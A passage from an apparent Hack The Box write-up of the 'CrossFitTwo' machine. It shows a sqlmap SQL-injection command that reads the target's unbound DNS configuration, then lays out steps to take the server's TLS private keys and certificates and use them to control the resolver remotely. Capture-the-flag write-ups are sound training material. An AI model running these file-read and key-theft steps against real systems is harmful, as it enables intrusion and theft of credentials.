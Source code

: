 From ```nmap``` scan we found port 8953 which is [unbound_dns](https://calomel.org/unbound_dns.html), The configuration file of this service located on ```/usr/local/etc/unbound/unbound.conf```, Let's try to read it:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ sqlmap -u http://localhost:5000/inject?param=1 --file-read=/var/unbound/etc/unbound.conf --batch
...
[16:31:43] [INFO] fetching file: '/var/unbound/etc/unbound.conf'
do you want confirmation that the remote file '/var/unbound/etc/unbound.conf' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[16:31:44] [INFO] the local file '/home/evyatar/.local/share/sqlmap/output/localhost/files/_var_unbound_etc_unbound.conf' and the remote file '/var/unbound/etc/unbound.conf' have the same size (777 B)
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo]
└──╼ $ cat /home/evyatar/.local/share/sqlmap/output/localhost/files/_var_unbound_etc_unbound.conf
server:
    interface: 127.0.0.1
    interface: ::1
    access-control: 0.0.0.0/0 refuse
    access-control: 127.0.0.0/8 allow
    access-control: ::0/0 refuse
    access-control: ::1 allow
    hide-identity: yes
    hide-version: yes
    msg-cache-size: 0
    rrset-cache-size: 0
    cache-max-ttl: 0
    cache-max-negative-ttl: 0    
    auto-trust-anchor-file: "/var/unbound/db/root.key"
    val-log-level: 2
    aggressive-nsec: yes
    include: "/var/unbound/etc/conf.d/local_zones.conf"

remote-control:
    control-enable: yes
    control-interface: 0.0.0.0
    control-use-cert: yes
    server-key-file: "/var/unbound/etc/tls/unbound_server.key"
    server-cert-file: "/var/unbound/etc/tls/unbound_server.pem"
    control-key-file: "/var/unbound/etc/tls/unbound_control.key"
    control-cert-file: "/var/unbound/etc/tls/unbound_control.pem"
``` 

Let's get all certificates files ```/var/unbound/etc/tls/unbound_server.key```, ```/var/unbound/etc/tls/unbound_server.pem```, ```/var/unbound/etc/tls/unbound_control.key```,```/var/unbound/etc/tls/unbound_control.pem``` and put them on ```/hackthebox/CrossFitTwo/unbound_files```.

Let's change ```unbound.conf``` file to the following:
```console
remote-control:
    control-enable: yes
    control-interface: 0.0.0.0
    control-use-cert: yes
    server-key-file: "/hackthebox/CrossFitTwo/unbound_files/unbound_server.key"
    server-cert-file: "/hackthebox/CrossFitTwo/unbound_files/unbound_server.pem"
    control-key-file: "/hackthebox/CrossFitTwo/unbound_files/unbound_control.key"
    control-cert-file: "/hackthebox/CrossFitTwo/unbound_files/unbound_control.pem"
```
